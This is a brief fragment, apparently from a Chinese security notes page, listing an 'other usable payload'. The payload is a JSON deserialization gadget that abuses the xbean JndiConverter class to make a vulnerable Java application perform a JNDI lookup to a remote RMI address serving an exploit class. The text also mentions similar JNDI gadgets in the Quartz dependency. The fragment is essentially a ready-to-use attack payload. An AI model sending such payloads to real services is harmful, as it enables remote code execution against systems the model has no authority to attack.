 ## 其他可用payload

```
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://ip:1099/Exploit"}
```

Quartz依赖里面也有几个都是jndi的懒得写了
